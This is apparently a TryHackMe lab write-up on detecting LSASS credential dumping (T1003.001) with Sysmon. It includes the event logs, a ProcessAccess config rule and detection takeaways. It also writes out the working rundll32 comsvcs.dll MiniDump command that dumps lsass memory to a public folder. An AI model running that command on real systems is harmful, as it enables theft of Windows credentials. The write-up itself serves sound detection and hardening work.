




# Logs Observed — T1003.001 LSASS Memory Dump

**Lab Environment:** TryHackMe — Sysmon Room  
**Date:** 2026-06-25  
**Computer:** THM\DOC-01  
**User:** THM\DOC-01.Admin  
**Setup:** Sysmon installed from `C:\Users\THM-Analyst\Desktop\Tools\Sysmon`. Default configuration active. ProcessAccess (Event 10) requires additional config — documented below.

---

## Sysmon Installed and Confirmed



Sysmon was installed on the lab machine from the pre-loaded tools directory:

```
C:\Users\THM-Analyst\Desktop\Tools\Sysmon\Sysmon64.exe -accepteula -i <config>
System Monitor v14.0 - System activity monitor
Copyright (C) 2014-2022 Mark Russinovich and Thomas Garnier
The service is already registered, uninstall before reinstalling.
```

---

## Attack Executed — lsass PID Identified



```powershell
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)  PM(K)   WS(K)  CPU(s)   Id  SI ProcessName
-------  ------  -----   -----  ------   --  -- -----------
   1836     155  54024   57492    4.05  632   0 lsass
```

**lsass PID: 632**

---

## lsass Dumped — File Confirmed



```powershell
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump 632 C:\Users\Public\lsass.dmp full
```

Dump file confirmed in `C:\Users\Public\`:

```
lsass.dmp     145,506 KB     6/25/2026 6:15 PM
```

> A 145 MB dump file confirms LSASS memory was fully read and written to disk — credential material is now accessible to the attacker offline.

---

## Sysmon Event ID 1 — Process Creation

**Log Path:** `Applications and Services Logs > Microsoft > Windows > Sysmon > Operational`

Sysmon Event ID 1 captured the full `rundll32.exe` command line including the `comsvcs.dll MiniDump` invocation targeting `lsass.dmp`.

```
UtcTime:          6/25/2026 6:15:19 PM
ProcessId:        4056
Image:            C:\Windows\System32\rundll32.exe
CommandLine:      "C:\Windows\System32\rundll32.exe"
                  C:\Windows\System32\comsvcs.dll MiniDump 632
                  C:\Users\Public\lsass.dmp full
CurrentDirectory: C:\Windows\system32\
User:             THM\DOC-01.Admin
ParentImage:      C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentCommandLine: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Event ID:         1
```



**Key detection fields:**
- `Image: rundll32.exe` — trusted Windows binary being abused (LOLBin)
- `CommandLine` contains `comsvcs.dll` + `MiniDump` + `lsass.dmp` — the full credential dump signature
- `ParentImage: powershell.exe` — attacker launched from PowerShell session

---

## Sysmon Event ID 10 — Process Access (Detection Gap)

Sysmon Event ID 10 was **not generated** because the default Sysmon configuration does not include a `ProcessAccess` rule for `lsass.exe`.

**To enable Event ID 10**, the following rule must be added to the Sysmon config XML:

```xml
<ProcessAccess onmatch="include">
  <TargetImage condition="is">C:\Windows\system32\lsass.exe</TargetImage>
</ProcessAccess>
```

When enabled, Event ID 10 would show:

```
EventID:       10
SourceImage:   C:\Windows\System32\rundll32.exe
TargetImage:   C:\Windows\System32\lsass.exe
GrantedAccess: 0x1fffff
CallTrace:     ntdll.dll | comsvcs.dll | UNKNOWN
```

> This detection gap is a hardening finding — environments running default Sysmon config are blind to lsass memory access. Adding the ProcessAccess rule closes this gap.

---

## Summary — Log Coverage Matrix

| Evidence | Captured | Notes |
|---|---|---|
| Sysmon Event 1 — `rundll32.exe comsvcs.dll MiniDump` | ✅ | Full command line with lsass PID and dump path |
| lsass.dmp file created (145 MB) | ✅ | Confirms successful credential dump |
| Sysmon Event 10 — lsass process access | ⚠️ | Requires ProcessAccess rule in Sysmon config |
| 4688 — process creation | ⚠️ | Requires audit policy (not configured on this machine) |

---

## Key Detection Takeaways

1. **LOLBins evade tool-based detection** — `rundll32.exe` and `comsvcs.dll` are both signed Microsoft binaries. Signature-based AV won't alert. Detection must focus on behavior — specifically the `MiniDump` argument combined with `lsass` in the command line.
2. **Dump path reveals intent** — Writing to `C:\Users\Public\` is a red flag. Legitimate Windows processes never write memory dumps there.
3. **Event 10 is the gold standard** — `GrantedAccess: 0x1fffff` against `lsass.exe` is near-definitive evidence of credential dumping. Enable ProcessAccess rules in Sysmon config.
4. **Correlate dump file creation with process access** — Sysmon Event ID 11 (FileCreate) for `*.dmp` files in writable paths paired with Event 1 showing `comsvcs.dll` creates a high-confidence detection chain.
5. **Parent process context** — `powershell.exe` spawning `rundll32.exe` with a dump argument is highly suspicious. Legitimate uses of `comsvcs.dll MiniDump` from PowerShell are essentially non-existent.
